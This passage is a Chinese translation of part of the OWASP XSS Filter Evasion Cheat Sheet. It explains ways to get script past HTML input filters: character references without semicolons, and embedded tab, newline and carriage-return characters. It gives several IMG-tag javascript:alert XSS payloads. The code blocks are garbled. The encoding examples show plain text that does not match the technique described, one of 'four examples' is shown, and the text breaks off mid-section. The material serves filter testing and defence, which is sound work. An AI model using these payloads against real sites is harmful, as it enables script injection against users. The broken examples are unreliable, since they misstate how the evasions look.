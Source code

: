 ### 没有尾随分号的十进制 HTML 字符引用[¶](https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html#decimal-html-character-references-without-trailing-semicolons)

这在尝试查找“&#XX;”的 XSS 中通常很有效，因为大多数人不知道填充 - 最多 7 个数字字符。这对于对像 $tmp_string =\~ s/.*\&#(\d+);.*/$1/; 这样的字符串进行解码的人也很有用。它错误地假设需要分号来终止 HTML 编码的字符串（我已经在野外看到过）：

```
<IMG SRC=javascript:alert('XSS')>
```

### 没有尾随分号的十六进制 HTML 字符引用[¶](https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html#hexadecimal-html-character-references-without-trailing-semicolons)

这也是针对上述字符串 $tmp_string=\~ s/.*\&#(\d+);.*/$1/; 的可行 XSS 攻击。它假设井号后面有一个数字字符 - 十六进制 HTML 字符不是这样）。

```
<IMG SRC=javascript:alert('XSS')>
```

### 嵌入式选项卡[¶](https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html#embedded-tab)

用于破解跨站脚本攻击：

```
<IMG SRC="jav ascript:alert('XSS');">
```

### 嵌入式编码选项卡[¶](https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html#embedded-encoded-tab)

使用这个来分解 XSS：

```
<IMG SRC="jav	ascript:alert('XSS');">
```

### 嵌入换行符来分解 XSS[¶](https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html#embedded-newline-to-break-up-xss)

一些网站声称任何字符 09-13（十进制）都可以用于这种攻击。这是不正确的。只有 09（水平制表符）、10（换行符）和 13（回车符）有效。有关详细信息，请参阅 ascii 图表。以下四个 XSS 示例说明了这个向量：

```
<IMG SRC="jav ascript:alert('XSS');">
```

### 嵌入式回车分解XSS[¶](https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html#embedded-carriage-return-to-break-up-xss)

（注意：上面我使这些字符串比它们必须的长，因为可以省略零。我经常看到过滤器假设十六进制和十进制编码必须是两个或三个字符。真正的规则是 1 -7 个字符。）：
